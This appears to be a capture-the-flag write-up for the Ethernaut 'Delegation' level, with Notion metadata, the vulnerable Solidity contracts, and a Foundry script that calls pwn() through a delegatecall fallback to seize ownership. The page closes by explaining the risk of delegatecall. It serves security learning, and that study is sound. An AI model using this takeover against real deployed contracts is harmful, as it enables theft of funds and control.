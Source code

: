 ```yaml
---
title: "Delegation"
date: "2024-02-01"
lastmod: "2024-02-12T14:45:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
weight: 6
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/6"
next: "Force-79bc75128abc41f2b25e56b521833ab6"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "0c005c8b-167c-4966-9267-71bad0ff918c"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T14:45:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel6.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-01"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 6
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/6"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Force-79bc75128abc41f2b25e56b521833ab6"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Force-79bc75128abc41f2b25e56b521833ab6"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Delegation"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Delegation"
          href: null
  url: "https://www.notion.so/Delegation-0c005c8b167c4966926771bad0ff918c"
  public_url: null
UPDATE_TIME: "2024-02-14T14:49:16.869Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


The goal of this level is for you to claim ownership of the instance you are given.


Things that might help

- Look into Solidity's documentation on the `delegatecall`
low level function, how it works, how it can be used to delegate
operations to on-chain libraries, and what implications it has on
execution scope.
- Fallback methods
- Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Delegation {
  function owner() external returns(address);
  fallback() external;
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_06");

        vm.startBroadcast(deployerPrivateKey);

        Delegation delegation = Delegation(addr);

        console.logAddress(delegation.owner());

        bytes memory data = abi.encodeWithSignature("pwn()");
        (bool result, ) = address(delegation).call(data);
        if (result) {
        }

        console.logAddress(delegation.owner());


        vm.stopBroadcast();
    }
}
```


Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, 
-other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.


Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.

